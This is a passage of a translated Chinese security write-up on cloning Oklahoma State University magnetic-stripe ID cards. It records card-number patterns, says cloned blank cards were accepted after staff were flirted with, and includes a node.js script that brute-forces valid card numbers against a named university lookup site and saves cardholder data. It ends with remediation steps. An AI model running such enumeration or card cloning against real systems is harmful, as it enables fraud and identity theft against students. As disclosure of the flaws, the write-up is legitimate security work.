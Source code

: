 ![enter image description here](http://drops.javaweb.org/uploads/images/51fdecb67a57b3bca96c1c572a3abf774b0d5d8c.jpg)

以上的测试中我们得到几点经验：

虽然复制卡看起来比较奇怪，但是在我们帅气的队友色诱下，工作人员还是接受了白卡。 复制卡的持卡人姓名修改后，消费时的单据上看到的依然是源卡持卡人姓名，这就说明在校园销售系统中，消费时数据与服务器实时核验，确保ID卡的有效性。但是持卡人姓名并没有做检测。

0x06 整装待发
=====

有了上面的试验和经验，我们再次总结一下现在掌握的信息：

该校所有的老师和学生都有这种ID卡 所有卡的前八位都是60383800 所有卡的第九第十位只有三种：05、06、11 有大约300万种可能的卡号 有一个现成的网站可以查询ID卡号的有效性，这个站可能会记录我们的IP 所有卡的过期时间一致，都是49/12 所有卡的自由数据部门都是空的（0填充） Unitec的MSRC206可以读取、编辑和重新编码磁条 图书馆验证ID卡时并不是实时连接服务器的 白卡（复制卡）拿去消费也是会被工作人员接受的 销售系统是与服务器实时通信验证的 销售系统不进行持卡人身份验证

0x07 扩大战果
=====

现在所掌握的信息已经足够我们进行大规模行动了。

首先，我们写了个基于node.js的网络小脚本，不用说你也猜到了，我们将对校园里的有效卡号进行爆破！

代码：

```
var cheerio = require('cheerio'), 
request = require('request'), 
fs = require('fs'), 
headnumber = '06';

for (var i=1; i <= 100; i += 1){
    var tailnumber = '';
    while (tailnumber.length < 6) 
    tailnumber = tailnumber + '' + [0,1,2,3,4,5,6,7,8,9][Math.floor(Math.random()*9)];
    request.post('https://app.it.okstate.edu/idcard/index.php/module/Default/action/IDCardEntry', {form:{card_id:'60383800'+headnumber+tailnumber}}, function (error, response, html) {
        if (!error && response.statusCode == 200) {
            var $ = ch3eerio.load(html);
            $('td.formText').each(function() {
                var text = $(this).next().text();
                fs.appendFile('osu_ids.txt', text+';', function(err){});
            });
            fs.appendFile('osu_ids.txt', '\r\n', function(err){});
        }
    }); 
}

```

由于所有ID卡自由数据部分（验证PIN码）都是空的（0填充），再加上服务器不对持卡人身份进行验证，我们可以利用爆破的有效卡号大规模制作复制卡，然后拿来做各种猥琐的事情。

这样造成的危害是远远超出很多人想象的，试想一下，刚刚充值了500万的一卡通突然只剩下零头；莫名其妙被学校警告借了图书馆1000本书没有还；悠闲地走在校园里突然过来两个保安把你架住说你昨晚猥亵女同学......

0x08 回归和谐
=====

接下来的步骤将带我们逃离上述的可怕情景，回归平静、和谐的校园生活，但实施起来会有点痛苦。

立即下线ID卡号查询网站 https://app.it.okstate.edu/idcard/ 重新设计ID卡 每个人都重新发一张新的ID卡 审核、测试涉及ID卡的所有系统 所有系统对验证事务进行严格检查 添加双重验证

参考文档：http://en.wikipedia.org/wiki/Magnetic_stripe_card 原文地址：http://snelling.io/hacking-oklahoma-state-university-student-id